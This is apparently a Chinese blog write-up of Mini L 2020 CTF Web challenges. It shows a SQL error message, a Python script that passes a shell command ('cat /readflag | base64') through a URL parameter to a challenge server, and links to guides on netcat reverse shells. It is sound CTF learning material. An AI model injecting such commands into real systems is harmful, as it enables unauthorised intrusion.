 ```yaml
---
title: 【Mini L 2020 题解】日常玩耍
categories:
  - 计算机科学
  - 网络安全
  - CTF
  - MiniL
tags:
  - CTF
  - Web
  - Python
abbrlink: 23889
date: 2021-04-29
---
```


# Mini L 2020 题解

在 MiniL2021 之前玩耍一下

<!--more-->

## Web

### id_wife

![image-20210429221306970](http://framist-bucket-openread.oss-cn-shanghai.aliyuncs.com/img/2023/08/15/20230815210511.png)

随便敲字符：


```
error 1064 : You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use  near '''')' at line 1`
```
啊啊啊发现自己的 SQL 注入方面其实根本就没学过，在网上也没有搜到很好的教程。无效尝试许久之后忍不住翻了答案：

[Mini L CTF WriteUp By Int3rn3t_Expl0rer Team - Reverier's Blog (wootec.top)](https://www.wootec.top/2020/05/17/minil-ctf-wp/#Web)

### 签到题

```python
import requests
import base64
url = 'http://6c366814-f63f-4de8-954b-06ef78b851eb.archive.xdsec.chall.frankli.site/'

getdata = {'a' : 'cat /readflag | base64'}

req = requests.get(url= url , params=getdata)
# print(req.url)
# print(req.encoding)
out = req.text
out = out[:out.find('<code>')]
print(out)
with open('out','wb') as f:
    f.write(base64.b64decode(out))
```



[(2 条消息) Windows/Linux 下 nc 反弹 shell_SoulCat-CSDN 博客_nc 反弹 shell](https://blog.csdn.net/csacs/article/details/91440568)



[NC 反弹 shell 的几种方法 - ctrl_TT 豆 - 博客园 (cnblogs.com)](https://www.cnblogs.com/-chenxs/p/11748488.html)

[(2 条消息) Linux 反弹 shell 姿势总结_葵花与巷_的博客-CSDN 博客](https://blog.csdn.net/qq_45924653/article/details/107445417)
